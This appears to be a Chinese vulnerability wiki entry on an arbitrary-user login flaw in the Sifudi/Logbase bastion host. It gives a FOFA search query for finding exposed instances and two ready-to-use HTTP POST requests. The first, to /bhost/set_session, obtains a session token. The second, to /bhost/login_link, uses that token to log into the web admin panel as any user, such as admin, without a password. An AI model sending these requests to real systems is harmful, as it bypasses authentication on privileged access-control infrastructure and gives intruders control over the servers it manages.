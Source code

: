 # 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

> [!NOTE]
>
> 思福迪堡垒机

## FOFA

> [!NOTE]
>
> "Logbase运维安全管理系统"

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```

获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](http://wikioss.peiqi.tech/vuln/sf-1.png)